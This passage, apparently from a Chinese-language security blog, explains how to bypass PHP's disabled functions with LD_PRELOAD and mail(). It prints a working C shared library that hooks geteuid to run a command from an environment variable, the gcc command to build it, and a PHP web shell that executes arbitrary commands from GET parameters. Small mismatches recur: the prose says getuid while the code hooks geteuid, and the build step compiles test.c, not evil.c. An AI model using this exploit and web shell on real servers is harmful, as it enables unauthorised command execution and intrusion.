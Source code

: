 \* 留意到 `/bin/bash` 启动时同样调用了 `getuid`（那么如果别的环境和上述情况一致，在 mail() 中存在启动 execve 调用了 /bin/sh 程序来间接调用 sendmail 的这种情况，即使目标系统未安装或未开启 sendmail 程序，我仍然可以通过 PHP 的 mail() 函数来触发调用了 /bin/sh 程序的 execve，从而调用 getuid() 达到执行劫持函数的目的。）

![](/assets/images/move/2019-11-18-11-18-23.png)

**攻击利用:**

编写 evil.c，劫持 getuid()，获取 LD_PRELOAD 环境变量并预加载恶意的共享库，再删除环境变量 LD_PRELOAD，最后执行由 EVIL_CMDLINE 环境变量获取的系统命令：

```c++
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int geteuid() {
        const char* cmdline = getenv("EVIL_CMDLINE");
        if (getenv("LD_PRELOAD") == NULL) { return 0; }
        unsetenv("LD_PRELOAD"); //在新进程启动前取消 LD_PRELOAD,防止陷入无限循环
        system(cmdline);
}
```

编译为共享对象（`-fPIC` 作用于编译阶段，告诉编译器产生与位置无关代码(Position-Independent Code)，则产生的代码中，没有绝对地址，全部使用相对地址，故而代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。）：

```bash
gcc -shared -fPIC test.c -o test.so
```

Shell.php:

```php
<?php
    echo "<p> <b>Example</b>: http://test.com/exp.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/html/exp.so </p>";
    $cmd = $_GET["cmd"]; //待执行的系统命令
    $out_path = $_GET["outpath"]; //保存命令执行输出结果的文件路径,便于在页面上显示
    /*是否有读写权限、web是否可跨目录访问、文件将被覆盖和删除...*/
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"]; //劫持系统函数的共享对象的绝对路径
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
```
